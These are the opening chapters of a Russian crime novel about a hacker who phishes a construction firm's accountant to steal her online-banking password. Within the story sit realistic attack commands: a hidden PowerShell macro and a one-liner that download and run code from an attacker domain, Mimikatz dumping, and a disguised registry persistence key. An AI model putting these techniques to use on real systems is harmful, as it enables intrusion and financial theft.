

# b4d_m00d: Точка выхода

## Аннотация

Для Никиты Сергеева не существует неприступных систем — лишь плохо написанный код и человеческая глупость. Каждый взлом, каждая украденная база данных — это не просто строчки в логах, а еще один месяц жизни для его больной матери. Ради нее он готов идти на любой риск. Один последний заказ от криминального авторитета старой закалки должен был стать его «точкой выхода» — билетом в новую, спокойную жизнь. Но вместо джекпота он срывает билет на войну, где он — главная цель.

## Обложка

### Глава 1

Глава 1

*15 октября 2023 года. 11:30.*

Воздух в опенспейсе «ТрансКарго» спёрло до горечи, он был плотным и пах нагретым пластиком системных блоков, дешёвым кофе из офисной кухни и пылью, осевшей на синтетическом ковролине. К этому примешивался кислый запах пота, который к концу дня въедался в рубашки тридцати клерков, запертых в этом сером карточном домике. Никита Сергеев сидел за своим столом в углу, максимально удалённом от кабинета начальника. Неподвижный, как часть офисного ландшафта. Лишь под столом, скрытая от чужих глаз, его нога нервно отбивала сложный ритм.

Из-за перегородки доносился бас начальника отдела логистики, Павла Игнатьевича, грузного мужчины с лицом человека, которому мир задолжал и не собирался отдавать. Он отчитывал молодого менеджера за сорванную поставку в Вологду, и слова «просрочка», «неустойка», «депремирование» падали на ковролин тяжёлыми, грязными каплями, но Никита слышал это лишь краем уха, не вслушиваясь. Этот шум был для него фоном, бессмысленным набором пакетов в перегруженной сети, которые можно было спокойно игнорировать. Его тело занимало полтора квадратных метра пространства, но сознание уже давно мигрировало в другую реальность, более логичную и справедливую.

На его основном, двадцатисемидюймовом мониторе Dell висел тикет в Pyrus: «Проблема с доступом к сетевой папке //Отчёты_2022». Пользователь — Светлана Маркова, бухгалтер. Никита знал, что никакой проблемы нет. Светлана просто забыла, что пароль нужно менять каждые тридцать дней, и уже трижды ввела старый, заблокировав учётную запись. Он мог бы решить эту задачу за пятнадцать секунд, но вместо этого позволил тикету провисеть два часа. Это было его маленькое, тихое развлечение: наблюдать, как эти примитивные организмы барахтаются в цифровом мире, правила которого были для них сродни тёмной магии. Курсор лениво скользнул к кнопке «Закрыть тикет». В комментарии появилось: «Проблема решена. Сброшен пароль. Новый: P@ssword_10․2023». Пусть мучается, подбирая регистр и символы. Сухой щелчок мыши поставил точку.

Взгляд сместился на второй монитор, старенький ViewSonic с выцветшими цветами. На нём было развёрнуто окно VirtualBox. Внутри, в строгом чёрно-синем интерфейсе, жила его настоящая операционная система — Kali. Фоновый шум офиса рассыпался, утонул в едва слышном шелесте кулеров его рабочей станции.

*«Всё. Рабочий день окончен. Теперь — настоящее дело»,* — эта мысль была не столько радостной, сколько констатирующей.

Напряжение в плечах, которого он даже не замечал, начало спадать. Кончики пальцев легли на клавиатуру , и на мгновение ему вспомнился университетский компьютерный класс, где он, будучи студентом второго курса, впервые запустил BackTrack, а позже и его наследника, Kali, почувствовав азарт охотника. И потом — Whonix, открыв для себя холодную дисциплину паранойи. Два инструмента, определившие его путь. Тот же самый восторг от прикосновения к миру, скрытому от обычных глаз. Миру, где правили не должности и связи, а интеллект и знание. Пульс, до этого лениво толкавший кровь, ударил чаще, наполняя ладони теплом. Он замер, ощущая, как под кожей на кончиках пальцев нарастает едва заметная пульсация.

На чёрном фоне терминала замерцал зелёный курсор. Его командный пункт. Пальцы забегали по клавишам, привычно находя нужные сочетания. Задача на сегодня — подготовка фишинговой атаки на строительную компанию «СеверСтройИнвест». Заказчик, Антон «Банкир» Козлов, хотел получить доступ к их счетам. Сумма на кону заставляла даже такого циника, как Никита, чувствовать лёгкое головокружение.

Первый шаг — регистрация фишингового домена. Он должен был быть максимально похож на официальный сайт поддержки 1С. Через анонимный браузер Tor он зашёл на сайт Njalla, регистратора, основанного одним из создателей The Pirate Bay. Njalla позволял платить криптовалютой и регистрировать домены на подставное лицо, принадлежащее самой компании. Идеальный инструмент.

Он ввёл в строку проверки 1c-buhupdate․com. Нажал Enter. Клавиша щёлкнула с приятной тактильной отдачей. На экране появилось короткое слово: «Unavailable».

*«Сука»,* — подумал Никита беззлобно. —*«Какой-то ушлый хер уже подсуетился».*

Это было нормально. Он попробовал другой вариант: 1c-buhupdate-pro․com. Секундная задержка, и… «Available». Удача. Он быстро прошёл процесс регистрации.

Следующий этап — оплата. Njalla выставил счёт в Monero. Никита скопировал длинную строку адреса кошелька. В другом окне терминала он открыл консольный клиент своего XMR-кошелька, который лежал на зашифрованной флешке, и ввёл команду transfer. Система запросила пароль. Он ввёл его вслепую — тридцать два символа, смесь букв, цифр и спецзнаков, давно отпечатавшаяся в его мышечной памяти. Нажал Enter. На экране появилась надпись:

*«Transaction successfully sent. Tx ID: \&lt;длинная строка хэша\&gt;. Waiting for confirmations…»*

Теперь оставалось ждать. Сеть Monero не отличалась скоростью. Требовалось десять подтверждений, а это около двадцати минут. Никакого Голливуда — всё медленно, скучно и требует терпения. Он откинулся на спинку кресла. Внешний мир снова просочился в его сознание. Неподвижная строка в терминале мерцала, как поплавок, заброшенный в тёмные, глубокие воды.

*14:00.*

Запах в офисной столовой был сложным произведением. В нём смешивались ноты пережаренного лука, вчерашней гречки и всепроникающий запах дешёвой белизны, которой уборщица протирала липкие столы. Никита сидел один, подальше от общего гомона. Коллеги сгрудились за большими столами, громко обсуждая сериалы и ипотеку. Их разговоры были для него сродни радиопомехам.

Он механически ковырял вилкой серую гречку и плоскую котлету. Топливо. Не более. Его взгляд был прикован к экрану смартфона — старенький Xiaomi с «Авито», без SIM-карты, подключённый к Wi-Fi через Orbot. На экране был открыт Telegram. Чат с пользователем «Перевозчик», посредником Козлова.

*Перевозчик [13:58]: По объекту уточнение.*

*Перевозчик [13:58]: Интересует только БК. Остальное мусор.*

Никита перечитал сообщение дважды. БК — банк-клиент. Это усложняло задачу. Почти наверняка он был привязан к USB-токену, а пароль вводился с виртуальной клавиатуры. Это означало, что ему нужен полный, интерактивный контроль над машиной в реальном времени.

Его пальцы, до этого расслабленно лежавшие на столе, сжались. Пресная котлета вдруг показалась во рту комком мокрого картона.

*«Токен… Значит, Mimikatz не поможет. Нужно будет ставить полноценный RAT. И не просто кейлоггер, а скрипт, делающий скриншоты экрана каждые несколько секунд. Перехватить пароль, когда она будет тыкать мышкой в виртуальные кнопки. Это… грязно. И шумно. Увеличивает риск обнаружения».*

Мышцы на шее свело. Он вспомнил свой первый серьёзный провал три года назад. Он так же недооценил систему защиты, использовал слишком простой троян, и его засёк эвристический анализ антивируса. Урок он запомнил навсегда.

Он медленно выдохнул. Задача была сложнее, но не невыполнимой. Он разблокировал телефон и набрал ответ.

*B4d_M00d [14:03]: +*

Подтверждение получено. Он заблокировал телефон, отодвинул тарелку с недоеденной едой. Аппетит пропал окончательно.

19:45.

За окнами однокомнатной квартиры в девятиэтажной панели в Купчино темнел октябрьский вечер. Дождь размазывал по стеклу серые полосы. Внутри было темно, единственным источником света были два монитора, заливавшие комнату холодным сиянием. Квартира Никиты была его крепостью и тюрьмой. Продавленный диван, заваленный одеждой. Стол, уставленный пустыми банками из-под энергетиков. И в центре этого хаоса — алтарь. Его рабочее место.

Последние несколько часов он провёл, не замечая ни времени, ни голода, погружённый в мир, где всё подчинялось логике, где у каждой проблемы было решение, а у каждой защиты — уязвимость.

На левом мониторе был открыт веб-интерфейс Gophish — фреймворка для фишинговых атак. Никита уже настроил SMTP-сервер. Теперь нужно было создать наживку. Он открыл настоящую страницу авторизации облачного сервиса 1С, несколько минут изучал её исходный код, а затем одной командой в терминале Kali создал её полную копию у себя на диске.

*wget --mirror -p --convert-links -P ./1c_clone https://login․1c․ru*

Работа была монотонной, почти механической, но требовала предельного внимания. Он открыл скачанный index․html в текстовом редакторе и изменил атрибут action в теге &lt;form&gt;, указав в нём адрес своего сервера-ловушки. Теперь любой, кто введёт здесь логин и пароль, отправит их прямо ему.

Следующий шаг — полезная нагрузка. Он открыл Visual Studio и внёс пару изменений в исходный код простого C#-загрузчика: вписал URL, по которому будет лежать основной троян. В качестве трояна он решил использовать AsyncRAT — мощный, но хорошо известный антивирусам. Поэтому его нужно было замаскировать. Он скомпилировал проект, прогнал полученный loader․exe через онлайн-обфускатор, а затем запаковал его кастомным упаковщиком. Каждый слой маскировки снижал вероятность обнаружения.

Финальный штрих. Нужно было заставить жертву запустить этот файл. Он создал новую таблицу Excel, назвал её «Обновление_базы_данных_1С_Q3․xlsm» и написал простой VBA-макрос.

*Private Sub Workbook_Open()*

*Shell "powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command ""IEX (New-Object Net․WebClient)․DownloadString('http://1c-buhupdate-pro․com/loader․ps1')""", vbHide*

*End Sub*

При открытии файла Excel запросит разрешение на «включение содержимого». Большинство людей, особенно паникующие бухгалтеры, нажмут «Да». И в этот момент PowerShell в скрытом режиме скачает и запустит всю цепочку заражения.

Он сохранил файл. Письмо, наживка, оружие. Всё было готово. Он сидел в темноте своей комнаты, и на его лице застыло слабое подобие ухмылки. Ловушка была готова. Теперь оставалось только дождаться, пока кто-нибудь нажмёт на кнопку.

*23:10.*

Никита откинулся в кресле, потянулся, услышав, как хрустнули позвонки. В квартире стояла тишина, нарушаемая лишь ровным шелестом системного блока. Резкая трель телефона пронзила её.

Он вздрогнул. Старый Xiaomi на столе завибрировал с запозданием, экран загорелся не сразу. На нём светилась фотография пожилой женщины с добрыми, уставшими глазами и надпись «Мама».

Ухмылка сползла с его лица. Он потёр пальцами переносицу, словно пытаясь стереть последние несколько часов.

«Чёрт. Поздно. Она волнуется. Надо было самому позвонить днём. Заработался. Опять…»

Сердце, до этого работавшее в ровном ритме, споткнулось и забилось чаще. Он вспомнил её лицо в больничной палате полгода назад. Бледное, измученное, но всё равно улыбающееся ему. И её слова: «Всё будет хорошо, сынок. Главное, ты себя береги». А он не берёг.

Он прокашлялся и принял вызов.

— Да, мам, привет, — его голос прозвучал мягче, чем он ожидал. Весь напускной цинизм испарился без следа.

— Никит, это ты? Господи, я уж думала, что случилось, не звонишь... Ты не спишь ещё? — её голос в динамике был слабым, но таким родным.

— Нет, не сплю, работаю ещё. Проект тут у меня, большой. Срочный.

Ложь. Первая за этот разговор. Но далеко не последняя.

— Опять за своим компьютером сидишь до ночи? Сынок, так нельзя, ты же себя загонишь.

— Отдохну, мам, скоро отдохну. Как ты себя чувствуешь? Лекарства принимаешь?

Она помолчала. Никита знал, что означает эта пауза.

— Принимаю, конечно. Только это, немецкое… оно опять подорожало. Я сегодня в аптеку заходила…

Он закрыл глаза. Диабет медленно разрушал её тело. Осложнения на почки требовали дорогих импортных препаратов. Деньги, которые он зарабатывал в «ТрансКарго», едва покрывали аренду и еду.

— Мам, — он перебил её, стараясь, чтобы голос не дрогнул. — Ты не думай об этом. Слышишь? Я же сказал, я всё решу. Деньги будут. Мне скоро… премию большую дадут. За проект этот. Так что на всё хватит. Ты главное принимай всё вовремя, хорошо?

Ложь. И от надежды в её голосе ему стало ещё хуже.

— Правда?

— Правда, мам. Я тебе обещаю. Всё будет хорошо.

Они поговорили ещё несколько минут. О погоде. О соседке.

— Я люблю тебя, сынок, — сказала она на прощание.

— И я тебя, мам, — прошептал он и нажал отбой.

Он положил телефон на стол. Когда звонок оборвался, тишина квартиры больше не казалась укрытием. В ней отчётливо зазвучал гул системного блока — монотонный, безразличный, как ход времени в больничной палате. Он сидел неподвижно, глядя в тёмный экран, и чувствовал себя последним ублюдком на свете.

*23:25.*

После разговора с матерью напряжение, державшее его в тонусе весь вечер, ушло, и тело обмякло, стало чужим и тяжёлым. Он был не гениальным хакером. Он был всего лишь испуганным сыном, отчаянно пытающимся спасти единственного близкого ему человека.

Его взгляд медленно переместился на монитор компьютера. Там, в интерфейсе Gophish, всё было готово. Список из двенадцати email-адресов бухгалтерии «СеверСтройИнвест». Шаблон письма, тщательно составленный, чтобы вызывать панику: «Срочное обновление безопасности баз данных 1С! Во избежание блокировки доступа просим вас открыть вложенный файл…» И прикреплённая к нему вредоносная таблица.

В голове снова прозвучали слова матери о подорожавшем лекарстве. Эта мысль смела остатки сомнений и жалости. Мышцы на его лице застыли, превращая его в маску. Он делал то, что должен. Цель оправдывала средства.

Палец замер над ледяным пластиком мыши. Секундное колебание — и палец надавил на пластик. Клик расколол тишину. Кампания запущена.

На экране открылся дашборд. Графики. Статистика. И счётчик с надписью «Sent». Цифра на нём стремительно росла: 1, 2, 3… 7… 12.

Всё. Письма отправлены.

Никита отвёл взгляд от экрана и посмотрел в тёмное окно. В стекле отражалось его бледное лицо и холодный свет монитора. Он не чувствовал ни радости, ни триумфа. Только ледяное спокойствие и глухую, тяжёлую усталость. Механизм был запущен. Теперь оставалось только ждать. Ждать, какой из двенадцати «пациентов» станет нулевым. И он был уверен, что ждать придётся недолго.

### Глава 2

Глава 2

Первые двое суток после отправки писем Никита провёл на чистом адреналине, почти не спал, подпитывая себя едкими энергетиками и предвкушением. Каждый писк уведомления на телефоне заставлял его вздрагивать. Каждый шорох за дверью отдавался в голове одним словом: «пришли». Он ходил по квартире, ощущая, как гудят от напряжения мышцы спины, готовый в любой момент сорваться и исчезнуть или сорвать куш и праздновать.

Но ничего не происходило.

К концу четвёртого дня азарт выгорел, оставив после себя сухой, колючий осадок раздражения. К седьмому дню раздражение сменилось глухой, почти физической усталостью. Сон стал рваным, тревожным. Он просыпался посреди ночи от собственного сдавленного крика, ощущая липкую от пота футболку на спине, бросался к компьютеру и вглядывался в логи C2-сервера, ища там признаки активности. Пусто. Всегда пусто. Воздух в однокомнатной квартире в Купчино пропитался запахом остывшего кофе, пыли от постоянно работающих кулеров и пластиковых контейнеров из-под еды, которые он ленился выносить.

К началу второй недели он начал сомневаться. Перечитывал текст фишингового письма, ища в нём фальшь. Проверял настройки домена, боясь, что где-то ошибся в DNS-записях. Может, приманка была слишком грубой? Или, наоборот, слишком сложной? Может, в этой конторе работают не идиоты, и его письмо сразу улетело в спам? Мысли метались по черепу, одна обрывочнее другой: «DNS-запись. Фильтр. Ошибка в заголовке. Спам. Идиоты. Или я идиот?» Первоначальный план, казавшийся таким изящным и верным, на глазах покрывался трещинами, как пересохшая глина.

На двенадцатый день, утром пятницы двадцать седьмого октября, он проснулся с ощущением окончательного провала. Всё. Пора сворачивать операцию, удалять логи, уничтожать виртуальную машину и признавать поражение. Деньги для матери… Он заставил себя не думать об этом, но фраза «снова наврал» раскалённым клеймом отпечаталась на внутренней стороне черепа. Он сидел на кухне, глядя в мутное окно на серый питерский рассвет, и механически жевал безвкусный сэндвич. Внутри не было ни злости, ни отчаяния — только выжженное поле.

* * *

Тамара Игоревна Матвеева только вчера вышла с больничного, на котором провела почти две недели. За это время на её рабочем месте образовался настоящий завал, а до сдачи квартального отчёта оставались считанные дни. Она ненавидела пятницы. Особенно пятницы в конце квартала. Для всего остального мира это был день предвкушения отдыха, а для неё — день аврала, паники и холодной ярости начальницы, Светланы Викторовны, которая именно по пятницам любила устраивать показательные порки. Воздух в просторном, но запущенном кабинете бухгалтерии «СеверСтройИнвест» был густым и тяжёлым. Он пах старой бумагой, которая десятилетиями впитывала в себя пыль, дешёвым кофе из офисной кофемашины и едва уловимым, кислым запахом человеческого стресса, который не могли перебить духи.

За окном накрапывал мелкий, унылый дождь, превращая и без того серый вид из окна в размытое акварельное пятно. Свет флуоресцентных ламп на потолке был безжизненным, он делал лица коллег бледными, а морщины — глубже.

Тамаре Игоревне было пятьдесят четыре. Тридцать из них она провела в бухгалтерии. Она помнила времена, когда отчёты сдавали на бумаге, когда компьютеры были редкостью, а интернет — чем-то из области фантастики. Она так и не смогла до конца привыкнуть к этому новому миру, где всё менялось быстрее, чем успевали обновляться прошивки. Каждое обновление программы, каждый новый приказ от айтишников вызывали у неё глухую, подспудную панику. Она боялась нажать не ту кнопку, удалить не тот файл, сделать что-то непоправимое. Её пальцы неуверенно замирали над клавиатурой, покрытой тонкой, липкой плёнкой из пыли и жира. Она чувствовала эту засаленность кончиками пальцев, и это ощущение добавляло ещё один штрих к общей картине утреннего дискомфорта.

Квартальный отчёт горел. Цифры не сходились, поставщики прислали неправильные накладные, а Светлана Викторовна уже дважды за утро заглядывала в кабинет с таким лицом, что, казалось, в кабинете каменел воздух. Тамара Игоревна в десятый раз проверяла сводную таблицу, когда на экране выскочило уведомление о новом письме. Хотя нет, не новом. Дата стояла от пятнадцатого октября. Оно пришло, пока она болела. Брошенный на него беглый взгляд заставил её внутренне сжаться.

*«СРОЧНО: Обновление базы данных 1С для корректной сдачи отчётности».*

Слово «СРОЧНО» было написано заглавными буквами и действовало как команда, отданная напрямую спинному мозгу, в обход всякой критики. Она почувствовала, как по спине пробежал знакомый холодок казённой паники. В голове тут же всплыли слова молодого парня из IT-отдела, который полгода назад проводил инструктаж по безопасности: «Никогда не открывайте вложения от неизвестных отправителей. Особенно с пометкой "Срочно"». Но отправитель… support@1c-buhupdate-pro․com. Выглядело солидно. Почти официально. «buhupdate»… обновление для бухгалтерии. Всё логично.

Она нажала на заголовок. Щелчок мыши прозвучал в её голове неестественно громко. На экране развернулся текст письма. Он был составлен грамотно, без ошибок, со ссылками на какие-то постановления и номера форм. *«В связи с обновлением форматов ФНС для корректной выгрузки данных квартальной отчётности необходимо установить критическое обновление для платформы 1С:Предприятие 8․3…»* Она не вчитывалась в детали. Она увидела ключевые слова: «ФНС», «отчётность», «критическое обновление».

В голове набатом звучали слова айтишника о вирусах, но образ Светланы Викторовны, искажённый вчерашней яростью, был громче и страшнее. Воспоминание было свежим и болезненным: унижение, едкие комментарии, взгляды коллег, полные фальшивого сочувствия. Тамара Игоревна до сих пор чувствовала, как горели щёки. «Если из-за меня отчёт не уйдёт… — пронеслось в голове. — Если мы не сможем выгрузить данные… Это будет конец. Она меня сожрёт. И будет права». Страх перед начальницей был сильнее страха перед безликой цифровой угрозой. Он был настоящим.

Она перевела курсор на вложенный файл: *Обновление_базы_данных_1С_Q3*․xlsm. Значок Excel. Ну, что может случиться от таблицы Excel? Это же не какая-то непонятная программа. Она решилась. Она глубоко вздохнула — так вздыхают, прежде чем коснуться оголённого провода, надеясь, что пронесёт, — и дважды щёлкнула левой кнопкой мыши.

Программа открылась. Поверх таблицы с какими-то цифрами появилась стандартная жёлтая плашка: «Внимание! Обнаружены макросы. Чтобы запустить макросы, необходимо нажать кнопку». Тамара Игоревна знала это слово — «макросы». Что-то связанное с автоматизацией. Наверное, само обновление и есть этот макрос. Логично. Она, не раздумывая, нажала на кнопку «Разрешить содержимое».

Таблица на экране моргнула. На долю секунды мелькнул чёрный прямоугольник и тут же исчез. Всё. Никаких окон об успешной установке. Никаких сообщений об ошибке. Просто пустая таблица. Тамара Игоревна несколько секунд смотрела на экран, ожидая продолжения. Ничего не последовало. «Наверное, установилось в фоновом режиме, — решила она с облегчением. — Сейчас всё так делают, по-умному». Она почувствовала, как напряжение, сковывавшее её плечи, немного отпустило. Она сделала всё правильно. Предотвратила возможную проблему с отчётом. Молодец.

Она закрыла файл без сохранения, перетащила письмо в «Удалённые», чтобы не захламлять ящик. Вернувшись к своей многострадальной таблице, она с новыми силами принялась искать ошибку, уже забыв о странном письме.

* * *

Никита сидел перед мониторами, неподвижный, как хищник в засаде, контролирующий каждый дюйм своей цифровой территории. Центральный, самый большой монитор, отображал веб-интерфейс его C2-сервера Covenant. Пустая таблица с заголовками «ID», «Hostname», «Username», «Last Seen» уже двенадцать дней действовала ему на нервы.

Он механически обновил страницу, нажав F5. Привычка, доведённая до автоматизма. Он уже не ждал результата, просто выполнял ритуал. Взгляд скользнул по пустому окну и… замер. Он моргнул, решив, что это галлюцинация от недосыпа. Но строка никуда не исчезла. Она просто была там, где секунду назад была пустота.

[+] New Grunt calling home from 82․146․XX․XX

Он физически ощутил, как в груди что-то сбилось с ритма — один удар пропущен, следующий — вдвое сильнее, прямо в солнечное сплетение. Кровь ударила в уши, заглушив гул кулеров. Он подался вперёд, вглядываясь в детали, которые подгрузились в таблицу.

*Hostname: BUH-TI. Username: T․Matveeva. Операционная система: Win 10 Pro x64.*

Попалась.

Никакого победного крика. Никакой эйфории. Он откинулся на спинку скрипучего кресла и медленно, со свистом выдохнул воздух, который, кажется, не вдыхал последние полминуты. На лице появилась кривая, измученная ухмылка. Механизм сработал. Только и всего. Он протянул руку к столу, нащупал полупустую банку энергетика и сделал большой глоток. Тёплая, приторно-сладкая жидкость с едким химическим привкусом обожгла горло. Он почувствовал, как по телу разливается искусственная бодрость. Работа только начиналась.

Он взял свой анонимный Xiaomi, разблокировал его и открыл чат с посредником Козлова. Контакт был подписан просто — «К.». Никита набрал короткое сообщение:

*«Есть контакт. Начинаю работу».*

Отправив, он тут же отложил телефон. Не нужно ждать ответа. Они увидят. Теперь его задача — действовать быстро и тихо.

* * *

Десять часов утра. Никита уже сорок минут как находился внутри чужого компьютера, внутри чужой жизни. Он действовал методично и бесшумно, как сапёр, работающий с часовым механизмом. Первым делом — разведка. Он не лез напролом, а осматривался, собирая информацию.

На его мониторе отображался рабочий стол Тамары Игоревны. Убогие обои с котятами в корзинке вызывали у него приступ тошноты. Весь экран был завален ярлыками: «Отчёт_октябрь», «Счета-фактуры_новые», «Авансы_сотрудникам», «Одноклассники». Цифровой хаос, отражающий хаос в голове владелицы. Никита брезгливо поморщился. Он запустил команду screenshot, чтобы зафиксировать текущее состояние, затем открыл командную строку, получив прямой доступ к системе. Его пальцы забегали по механической клавиатуре. Ритмичное, почти неслышное пощёлкивание клавиш было единственным звуком в комнате.

Он быстро просканировал структуру папок, заглянул в «Документы», «Загрузки». Горы мусора. Но среди них он нашёл то, что искал. Ярлык на рабочем столе с названием «ДБО BS-Client». Система дистанционного банковского обслуживания. Цель.

Теперь нужно было получить пароли. Это был стандартный, рутинный шаг. Он использовал встроенный в Covenant модуль для инъекции в память процесса explorer․exe шеллкода Mimikatz. Он ввёл команду: mimikatz logonpasswords. Нажал Enter.

На чёрном экране консоли побежали строки. Система выплёвывала дамп учётных данных. Никита вглядывался в текст, его взгляд профессионально выхватывал нужные блоки. Логин и пароль от Windows: T․Matveeva и предсказуемый Matveeva1969. Пароль от почты. Данные для бухгалтерского форума. Полезные, но второстепенные трофеи. Он прокручивал вывод дальше, ища заветную строку, связанную с банк-клиентом. Но её не было.

Он просмотрел дамп ещё раз. Внимательнее. Ничего. Абсолютно ничего, что могло бы быть ключом от системы ДБО. В животе будто провернулся ледяной бур. План «А» давал сбой. Система не сохраняла пароль в памяти. Его нужно было вводить каждый раз. А это значит…

Он запустил команду tasklist, чтобы увидеть список запущенных процессов. Его взгляд зацепился за несколько строчек: csp-cs․exe, rtcs․exe. Процессы, связанные с криптозащитой. Чтобы подтвердить свою догадку, он ввёл длинную команду на PowerShell, запрашивающую список подключённых USB-устройств. Система послушно выдала список. Мышь. Клавиатура. И вот она, последняя строка: Aladdin Knowledge Systems JaCarta.

Чёрт. USB-токен. Это всё усложняло. Просто украсть пароль недостаточно. Стандартные методы здесь не сработают. Первый барьер, первая стена, о которую он ударился.

Фрустрация длилась не больше десяти секунд. Это не провал, это просто техническая задача, требующая другого решения. Он молча закрыл окно с бесполезным дампом от Mimikatz. План «А» провалился. Что ж, для этого и существует план «Б».

Никита работал с холодной, отстранённой концентрацией. Он был уже не просто хакером, а конструктором, создающим изощрённый шпионский инструмент прямо внутри вражеской системы. Перед ним был код его собственного скрипта на PowerShell. Он состоял из двух частей. Первая — кейлоггер, который перехватывал нажатия клавиш. Вторая часть — скриншотер, который делал снимок экрана каждые три секунды.

Но главная его хитрость была в другом. Скрипт не работал постоянно. Это было бы слишком шумно. Никита добавил в код триггер: скрипт находился в спящем состоянии и активировался только при запуске процесса с именем bank_client․exe. Как только жертва открывала программу банк-клиента, ловушка захлопывалась.

Он ещё раз пробежался глазами по коду, внёс пару мелких правок, чтобы обфусцировать его ещё сильнее, и сохранил. Теперь нужно было доставить его на машину Тамары Игоревны. Он выбрал технику fileless malware. Скрипт не будет сохраняться на жёсткий диск. Вместо этого он будет загружен напрямую в оперативную память. Никита разместил файл скрипта на своём фишинговом домене, замаскировав его под updater․ps1. Затем, в командной строке на компьютере жертвы, он ввёл одну-единственную, но очень длинную команду: powershell "IEX (New-Object Net․WebClient)․DownloadString('http://1c-buhupdate-pro․com/updater․ps1')".

Он нажал Enter. Команда ушла. Несколько секунд ничего не происходило. Никита невольно задержал дыхание и начал грызть ноготь на большом пальце — единственный жест, выдававший его напряжение. Затем в консоли появилось подтверждение: скрипт был загружен и исполнен.

Оставался последний шаг: обеспечить выживаемость. Если Тамара Игоревна перезагрузит компьютер, скрипт исчезнет. Нужно было закрепиться в системе. Никита открыл редактор реестра Windows и создал новый ключ в ветке автозагрузки HKCU\Software\Microsoft\Windows\CurrentVersion\Run. Он назвал ключ Adobe Acrobat Update Checker, а в качестве значения прописал ту же самую команду. Теперь при каждом входе в систему ловушка будет незаметно перезаряжаться.

Работа была сделана. Он аккуратно закрыл все окна, почистил логи и завершил активную сессию. Нельзя постоянно висеть на машине, это повышает риск обнаружения. Он откинулся на спинку кресла. Всё. Капкан установлен, взведён и замаскирован.

Теперь снова предстояло ждать. Но это было уже не пассивное и нервное бдение, а выдержка охотника у поставленного капкана. Он посмотрел на часы. 12:30. Впереди был обед и вторая половина рабочего дня. Скорее всего, она будет проводить платежи ближе к вечеру. У него было несколько часов. Он встал, прошёлся по комнате, разминая затёкшие мышцы. Взгляд упал на гору пустых контейнеров из-под еды. Он поморщился, собрал их в пакет и впервые за несколько дней вышел из квартиры, чтобы дойти до мусорных баков. Воздух на улице был влажным и холодным, но после спёртой атмосферы его берлоги он казался почти свежим.

Сигнал пришёл в 16:45. На почту Никиты, привязанную к серверу управления, упало автоматическое уведомление. Тема письма состояла из трёх слов: TRIGGER ACTIVATED: BUH-TI.

Забыв про кофе, он рванулся к креслу. Пульс подскочил. Вот оно. Он мгновенно установил новую сессию с заражённой машиной и активировал стриминг скриншотов в реальном времени.

На его центральном мониторе, с задержкой в три-четыре секунды, появилось изображение рабочего стола Тамары Игоревны. Курсор мыши двинулся по экрану. Двойной щелчок по ярлыку банк-клиента. Появилось окно входа в систему. Поля для логина и пароля. На том конце кто-то потянулся за пределы экрана. Щелчок. В системный блок вставили USB-токен.

Она ввела логин, T․Matveeva, с клавиатуры. Затем курсор переместился на поле пароля и начал нажимать на цифры виртуальной клавиатуры. Наивная защита.

Никита почти не смотрел на этот монитор. Всё его внимание было приковано к левому, куда в реальном времени сыпался лог системных событий. Он видел, как регистрируется серия кликов мыши в области окна банк-клиента. Бессмысленный набор координат. Но в связке со скриншотами, которые обновлялись каждые три секунды, эта абракадабра превращалась в точную карту. Он видел, как курсор на скриншоте наводится на цифру «8», и в тот же миг в логе появлялась отметка о клике. Затем «1» — и снова клик. Он мысленно сопоставлял два потока данных, складывая пароль в реальном времени: 81539204.

Он смотрел, как на скриншоте она нажимает кнопку «Войти». Окно входа исчезло, сменившись главным интерфейсом банк-клиента. Есть. Пароль верный. Он выделил мышкой комбинацию цифр в своём лог-файле и скопировал её в пустой текстовый документ.

Он продолжал наблюдать. Видел, как она создаёт платёжное поручение, подписывает его, снова вводя пароль от токена, — и он снова появлялся в его логе. Она работала в системе минут десять, затем нажала кнопку «Выход». Процесс bank_client․exe на её машине завершился. Его скрипт тут же перешёл в спящий режим.

Никита отключил сессию. Он несколько секунд сидел в полной тишине, глядя на восемь цифр в безымянном блокноте. 81539204. Это был не просто пароль. Это был ключ. К сорока семи миллионам. К лекарствам для матери. К новой жизни. Или к тюремной камере.

Он сохранил текстовый файл на рабочий стол, назвав его jackpot․txt. Усталая, хищная ухмылка снова появилась на его лице. Первая часть игры была окончена. Он победил. Теперь начиналась вторая, самая опасная.

Прежде чем строить дальнейшие планы, он взял телефон и набрал номер матери.

Гудки шли долго. Никита смотрел на файл jackpot․txt на экране и чувствовал, как внутри поднимается знакомая волна вины, смешанная с горьким триумфом.

— Алло? — голос матери в трубке был слабым, немного дребезжащим.

— Мам, привет. Это я. Как ты себя чувствуешь?

— Никитушка… — в её голосе прорезалась надежда, и от этого ему стало ещё хуже. — Нормально, сынок. Лежу. Врач заходил утром. Говорит, надо начинать курс этого нового лекарства, немецкого. Говорит, тянуть нельзя, а то почки…

Он закрыл глаза. Каждое её слово было как удар молотка по нервам.

— Я помню, мам. Я всё помню, — его голос звучал ровно, почти безразлично — он выстраивал это безразличие, как стену, слово за словом. — Деньги будут. На работе… премию дали. Большую. На днях уже всё решим. Ты только не волнуйся, ладно? Главное — не нервничай.

— Я верю тебе, сынок. Я знаю, ты у меня… хороший, — её слова должны были успокоить, но от них только тяжелее давил на грудь камень вины.

— Да. Ладно, мам, мне бежать надо. Работа. Я позвоню позже.

Он сбросил вызов, не дожидаясь ответа. Устало откинулся в кресле. Весь этот огромный, сложный мир с его офисами, начальницами и бухгалтерами сейчас сводился к этим восьми цифрам. И они принадлежали ему.

### Глава 3

Глава 3

*02 ноября 2023*

